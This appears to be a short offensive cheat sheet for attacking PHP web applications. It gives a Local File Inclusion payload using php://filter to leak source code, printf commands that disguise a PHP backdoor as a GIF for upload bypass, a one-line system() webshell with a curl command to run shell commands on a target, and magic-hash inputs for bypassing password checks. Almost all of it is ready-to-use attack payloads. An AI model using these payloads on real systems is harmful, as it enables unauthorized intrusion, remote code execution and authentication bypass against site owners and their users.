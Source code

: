=== php

==== Local File Inclusion

If you have

 include($_GET['page'] . ".php");

You can reveal php contents with:

 ?page=php://filter/convert.base64-encode/resource=index

and some clever scripting.

==== Image Upload

1. Try just taking on an extension: `backdoor.php.gif`
2. Try prefixing the file with a small gif:

  printf "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x00\xff\x00" > backdoor.php.gif
  printf "\x2c\x00\x00\x00\x00\x01\x00\x01\x00\x00\x02\x00\x3b" >> backdoor.php.gif
  cat backdoor.php >> backdoor.php.gif

==== Webshell

  <?php @system($_POST['cmd']); ?>

Use it with curl:

  curl -d 'cmd=/usr/bin/id' http://target/shell.php

<<<

==== Magic Numbers

Some strings will hash to strings that can be interpreted as numbers. Weird huh?

Try the following inputs in password fields:

|===
|digest |input |output
|md5 |240610708 |0e462097431906509019562988736854
|sha1 |10932435112 |0e07766915004133176347055865026311692244
|===
